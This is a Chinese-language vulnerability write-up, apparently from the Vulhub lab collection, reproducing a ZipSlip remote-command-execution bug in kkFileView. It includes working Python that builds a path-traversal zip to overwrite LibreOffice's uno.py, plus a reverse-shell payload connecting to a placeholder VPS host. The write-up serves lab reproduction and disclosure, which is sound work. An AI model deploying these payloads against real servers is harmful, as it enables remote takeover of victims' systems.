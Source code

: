 # kkFileView ZipSlip 远程命令执行漏洞

## 漏洞描述

kkFileView 是使用 Spring Boot 搭建的文档在线预览解决方案，能够支持多种主流办公文档的在线预览，如 doc、docx、xls、xlsx、ppt、pptx、pdf、txt、zip、rar 等格式。此外，还可以预览图片、视频、音频等多种类型的文件。

在 kkFileView 4.4.0-beta 以前，存在一处 ZipSlip 漏洞。攻击者可以利用该漏洞，向服务器任意目录下写入文件，导致任意命令执行漏洞。

参考链接：

- https://github.com/kekingcn/kkFileView/issues/553
- https://github.com/luelueking/kkFileView-v4.3.0-RCE-POC

## 披露时间

```
2024-04-15
```

## 漏洞影响

```
v4.2.0 <= kkFileView <= v4.4.0-beta
```

## 环境搭建

Vulhub 执行如下命令启动一个 kkFileView 3.4.0 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8012` 即可查看到首页。

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419210738761.png)

## 漏洞复现

目标在使用 odt 转 pdf 时会调用系统的 Libreoffice，而该进程会调用库中的 `uno.py` 文件，因此可以覆盖 `uno.py` 文件的内容实现 RCE。

首先，修改 [poc.py](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/poc.py)：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'vulhub'
        binary2 = b"import os\nos.system('touch /tmp/success')\n"
        zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
        # info = zipfile.ZipInfo("test.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

执行 `poc.py`，生成 POC 文件，`test.zip` 将被写入当前目录。

```
python poc.py
```

然后，使用 kkFileView 服务上传 `test.zip`：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212103511.png)

点击 `test.zip` 的“预览”按钮，可以看到 zip 压缩包中的文件列表：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212029664.png)

最后，上传任意一个 odt 文件，例如 [sample.odt](https://github.com/vulhub/vulhub/blob/master/kkfileview/4.3-zipslip-rce/sample.odt)，发起 Libreoffice 任务：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212226172.png)

点击 `sample.odt` 的“预览”按钮，触发代码执行漏洞：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212315976.png)

可见，`touch /tmp/success` 已经成功被执行：

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419212427494.png)

反弹 shell：

```python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'whoami'
        binary2 = b'import socket,subprocess,os\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("<your-vps-ip>",8888));os.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\np=subprocess.call(["/bin/sh","-i"])\n'
        zipFile = zipfile.ZipFile("exp.zip", "a", zipfile.ZIP_DEFLATED)
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

![](images/kkFileView%20ZipSlip%20远程命令执行漏洞/image-20240419220258376.png)

## 漏洞修复

- https://github.com/kekingcn/kkFileView/commit/421a2760d58ccaba4426b5e104938ca06cc49778

